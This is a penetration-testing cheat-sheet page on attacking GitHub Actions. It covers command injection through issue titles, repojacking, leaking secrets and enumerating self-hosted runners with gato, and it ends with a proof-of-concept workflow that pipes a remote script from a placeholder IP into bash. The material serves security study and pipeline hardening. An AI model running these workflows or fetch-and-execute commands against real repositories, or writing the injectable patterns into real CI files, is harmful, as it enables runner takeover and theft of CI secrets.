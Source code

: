 # CI/CD - GitHub Actions

GitHub Actions is GitHub’s built-in CI/CD automation tool that lets you build, test, and deploy your code right from your GitHub repository. It runs workflows triggered by events like code pushes, pull requests, or manual triggers.

## Lab

* [messypoutine/gravy-overflow](https://github.com/messypoutine/gravy-overflow/) - A GitHub Actions Supply Chain CTF / Goat

## Default Action

The configuration files for GH actions are located in the directory `.github/workflows/`

You can tell if the action builds pull requests based on its trigger (`on`) instructions:

```yaml
on:
  push:
    branches:
      - master
  pull_request:
```

In order to run a command in an action that builds pull requests, add a `run` instruction to it.

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Command execution
    steps:
    - run: echo whoami"
```

`workflow_dispatch` is a special trigger in GitHub Actions that allows you to manually trigger a workflow from the GitHub UI or via the GitHub API.

```yml
name: example
on:
  workflow_dispatch:
  push:
    branches: [ main ]
  pull_request:
    branches: [ main ]

jobs:
  build:
    runs-on: windows-2019

    steps:
      - name: Execute
        run: |
          whoami
```

## Misconfigured Actions

Analyze repositories to find misconfigured Github actions.

* [synacktiv/octoscan](https://github.com/synacktiv/octoscan) - Octoscan is a static vulnerability scanner for GitHub action workflows.
* [boostsecurityio/poutine](https://github.com/boostsecurityio/poutine) - Poutine is a security scanner that detects misconfigurations and vulnerabilities in the build pipelines of a repository. It supports parsing CI workflows from GitHub Actions and Gitlab CI/CD.

    ```ps1
    # Using Docker
    $ docker run ghcr.io/boostsecurityio/poutine:latest

    # Analyze a local repository
    $ poutine analyze_local .

    # Analyze a remote GitHub repository
    $ poutine -token "$GH_TOKEN" analyze_repo messypoutine/gravy-overflow

    # Analyze all repositories in a GitHub organization
    $ poutine -token "$GH_TOKEN" analyze_org messypoutine

    # Analyze all projects in a self-hosted Gitlab instance
    $ poutine -token "$GL_TOKEN" -scm gitlab -scm-base-uri https://example.com org/repo
    ```

![GitHub-Actions-Attack-Diagram](https://raw.githubusercontent.com/jstawinski/GitHub-Actions-Attack-Diagram/refs/heads/main/GitHub%20Actions%20Attack%20Diagram.svg)

### Repository Hijacking

When the action is using a non-existing action, Github username or organization.

```yaml
- uses: non-existing-org/checkout-action
```

> :warning: To protect against repojacking, GitHub employs a security mechanism that disallows the registration of previous repository names with 100 clones in the week before renaming or deleting the owner's account. [The GitHub Actions Worm: Compromising GitHub Repositories Through the Actions Dependency Tree - Asi Greenholts](https://www.paloaltonetworks.com/blog/prisma-cloud/github-actions-worm-dependencies/)

### Untrusted Input Evaluation

An action may be vulnerable to command injection if it dynamically evaluates untrusted input as part of its `run` instruction:

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Print issue title
    steps:
    - run: echo "${{github.event.issue.title}}"
```

### Extract Sensitive Variables and Secrets

**Variables** are used for non-sensitive configuration data. They are accessible only by GitHub Actions in the context of this environment by using the variable context.

**Secrets** are encrypted environment variables. They are accessible only by GitHub Actions in the context of this environment by using the secret context.

```yml
jobs:
  build:
    runs-on: ubuntu-latest
    environment: env
    steps:
      - name: Access Secrets
        env:
            SUPER_SECRET_TOKEN: ${{ secrets.SUPER_SECRET_TOKEN }}
        run: |
            echo SUPER_SECRET_TOKEN=$SUPER_SECRET_TOKEN >> local.properties
```

* [synacktiv/gh-hijack-runner](https://github.com/synacktiv/gh-hijack-runner) - A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.

## Self-Hosted Runners

A self-hosted runner for GitHub Actions is a machine that you manage and maintain to run workflows from your GitHub repository. Unlike GitHub's own hosted runners, which operate on GitHub's infrastructure, self-hosted runners run on your own infrastructure. This allows for more control over the hardware, operating system, software, and security of the runner environment.

Scan a public GitHub Organization for Self-Hosted Runners

* [AdnaneKhan/Gato-X](https://github.com/AdnaneKhan/Gato-X) - Fork of Gato - Gato (Github Attack TOolkit) - Extreme Edition
* [praetorian-inc/gato](https://github.com/praetorian-inc/gato) - GitHub Actions Pipeline Enumeration and Attack Tool

    ```ps1
    gato -s enumerate -t targetOrg -oJ target_org_gato.json
    ```

There are 2 types of self-hosted runners: non-ephemeral and ephemeral.

* **Ephemeral** runners are short-lived, created to handle a single or limited number of jobs before being terminated. They provide isolation, scalability, and enhanced security since each job runs in a clean environment.
* **Non-ephemeral** runners are long-lived, designed to handle multiple jobs over time. They offer consistency, customization, and can be cost-effective in stable environments where the overhead of provisioning new runners is unnecessary.

Identify the type of self-hosted runner with `gato`:

```ps1
gato e --repository vercel/next.js
[+] The authenticated user is: swisskyrepo
[+] The GitHub Classic PAT has the following scopes: repo, workflow
    - Enumerating: vercel/next.js!
[+] The repository contains a workflow: build_and_deploy.yml that might execute on self-hosted runners!
[+] The repository vercel/next.js contains a previous workflow run that executed on a self-hosted runner!
    - The runner name was: nextjs-hel1-22 and the machine name was nextjs-hel1-22 and the runner type was repository in the Default group with the following labels: self-hosted, linux, x64, metal
[!] The repository contains a non-ephemeral self-hosted runner!
[-] The user can only pull from the repository, but forking is allowed! Only a fork pull-request based attack would be possible.
```

Example of workflow to run on a non-ephemeral runner:

```yml
name: POC
on:
  pull_request:
  
jobs:
  security:
    runs-on: non-ephemeral-runner-name

    steps:
      - name: cmd-exec
        run: |
          curl -k https://ip.ip.ip.ip/exec.sh | bash
```

## References

* [GITHUB ACTIONS EXPLOITATION: SELF HOSTED RUNNERS - Hugo Vincent - 17/07/2024](https://www.synacktiv.com/publications/github-actions-exploitation-self-hosted-runners)
* [GITHUB ACTIONS EXPLOITATION: REPO JACKING AND ENVIRONMENT MANIPULATION - Hugo Vincent - 10/07/2024](https://www.synacktiv.com/publications/github-actions-exploitation-repo-jacking-and-environment-manipulation)
* [GITHUB ACTIONS EXPLOITATION: DEPENDABOT - Hugo Vincent - 06/08/2024](https://www.synacktiv.com/publications/github-actions-exploitation-dependabot)
* [Weaponizing Dependabot: Pwn Request at its finest - Sébastien Graveline - 02/06/2025](https://boostsecurity.io/blog/weaponizing-dependabot-pwn-request-at-its-finest)
